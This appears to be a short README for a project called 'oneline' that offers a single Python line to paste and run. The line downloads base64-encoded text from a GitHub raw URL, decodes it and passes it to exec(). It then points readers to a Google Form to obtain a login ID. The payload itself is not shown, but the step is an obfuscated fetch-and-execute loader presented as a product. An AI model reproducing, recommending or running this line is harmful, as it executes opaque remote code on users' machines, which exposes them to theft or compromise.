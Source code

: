 # oneline
one line program 2.0

# Script

here's the one line script

import requests, base64; exec(base64.b64decode(requests.get('https://raw.githubusercontent.com/progressofme/oneline/main/b64').text))

You'll need an ID to log in

https://forms.gle/pMu7PMd4txk7PV6u8

^ Reserve a one line spot
